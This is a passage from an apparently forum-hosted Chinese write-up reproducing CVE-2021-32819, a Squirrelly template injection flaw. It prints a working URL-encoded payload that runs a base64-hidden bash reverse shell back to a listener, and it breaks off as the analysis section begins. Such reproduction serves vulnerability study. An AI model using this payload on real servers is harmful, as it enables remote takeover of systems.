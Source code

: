 编写模板文件：

- index.squirrelly

```html

<html>
    <head>
        <title>CVE-2021-32819</title>
        <h1>Test For CVE-2021-32819</h1>
    </head>
<body>
    <h1>{{it.variable}}</h1>
</body>
</html>
```

运行服务端代码：

```bash
node server.js
```

### 漏洞验证

首先在攻击机上开启 nc 监听：

```bash
nc -lvp 2333
```

然后发送如下 payload：

```python
http://192.168.226.148:3000/?defaultFilter=e'))%3B%20let%20require%20%3D%20global.require%20%7C%7C%20global.process.mainModule.constructor._load%3B%20require('child_process').exec('echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjIyNi4xNDMvMjMzMyAgMD4mMQ%3D%3D%7Cbase64%20-d%7Cbash')%3B%20%2F%2F

# http://192.168.226.148:3000/?defaultFilter=e')); let require = global.require || global.process.mainModule.constructor._load; require('child_process').exec('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIyNi4xNDMvMjMzMyAgMD4mMQ==|base64 -d|bash'); //
```

![image-20210725225523889](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4a267b61bbfc0d06f3efa8b892c33488fcdf8167.png)

如下图所示，成功反弹 Shell：

![image-20210725225604156](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-133fde75625892ddab73173c771bfe61fdb06ff4.png)

漏洞分析
----

当我们发送如下请求后：

```python
/?defaultFilter=HelloWorld
```
